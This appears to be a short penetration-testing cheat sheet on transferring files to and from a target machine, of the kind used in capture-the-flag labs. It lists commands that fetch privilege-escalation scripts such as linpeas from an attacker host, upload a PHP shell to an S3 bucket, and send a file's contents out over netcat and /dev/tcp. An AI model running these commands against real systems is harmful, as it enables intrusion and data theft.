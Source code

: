 
# Start a local webserver 
```
python3 -m http.server 80
```
Download a file on the remote server from our local machine 
```
wget http://10.10.14.1/linpeas.sh
```
# _curl_
```
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```
# _base64_
Convert a file to `base64` 
```
base64 shell -w 0
```
Convert a file from `base64` back to its orig
```
echo f0VMR...SNIO...InmDwU \| base64 -d > shell
```
## _aws_
Copie an shell file on remote s3 bucket
```
aws --endpoint=http://s3.domaine_name s3 cp shell.php s3://domaine_name
```
## _ssh_
Transfer a file to the remote server with `scp` (requires SSH access) 
```
scp linenum.sh user@remotehost:/tmp/linenum.sh
```
Transfer a file from the remote server
```
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```
## **with nc**
	on local
```
nc -lvp port > file
```
 on remote host
```
nc -w 3 l@ip port < file
``` 
```
cat /opt/manage/execute_query > /dev/tcp/10.10.16.108/4321
```

